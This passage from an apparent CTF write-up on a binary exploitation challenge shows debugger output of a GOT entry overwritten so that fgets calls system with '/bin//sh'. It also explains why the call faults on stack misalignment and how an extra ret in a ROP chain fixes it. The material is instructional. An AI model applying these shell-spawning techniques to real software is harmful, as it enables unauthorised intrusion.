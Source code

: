 If we check the `got` command, we'll see that `fgets` has been overwritten with `system`.

```sh
[0x404040] fgets@GLIBC_2.2.5 -> 0x404030 (system@got[plt]) —▸ 0x7fecc1f7fe50 (system) ◂— test   rdi, rdi
```

Notice the `0x7fecc1f7fe50` address; this is the address of `system` in Lib-C. Now compare that to when we **don't** call `view_time` before overwriting the GOT entry. This will be important later.

```sh
[0x404040] fgets@GLIBC_2.2.5 -> 0x404030 (system@got[plt]) —▸ 0x401066 (system@plt+6) ◂— push   3
```

So what happens when we run through the whole exploit?

```sh
Program received signal SIGSEGV, Segmentation fault.
0x0000000000404030 in system@got[plt] ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 RAX  0xdf1300 ◂— '/bin//sh'
 RBX  0x0
 RCX  0x0
 RDX  0x7f5183555980 (_IO_2_1_stdin_) ◂— 0xfbad2088
 RDI  0xdf1300 ◂— '/bin//sh'
 RSI  0x64
 R8   0x31
 R9   0x4
 R10  0x402059 ◂— 0x57000000203e3e3e /* '>>> ' */
 R11  0x246
 R12  0x4010b0 (_start) ◂— xor    ebp, ebp
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x7ffc1c97c540 —▸ 0x7ffc1c97c580 —▸ 0x7ffc1c97c5a0 —▸ 0x7ffc1c97c5b0 —▸ 0x401520 (__libc_csu_init) ◂— ...
 RSP  0x7ffc1c97c518 —▸ 0x401246 (write_data+65) ◂— mov    rax, qword ptr [rbp - 0x18]
 RIP  0x404030 (system@got[plt]) —▸ 0x7f51833dfe50 (system) ◂— test   rdi, rdi
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x404030 <system@got[plt]>    push   rax
```

The RIP contains `system` and the RDI contains the address of "/bin//sh", yet we got a segfault! The reason is due to stack alignment. Notice that RSP holds `0x7ffc1c97c518`; the trailing `8` indicates that the stack is not 16-byte aligned.

### Stack Alignment

> If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.
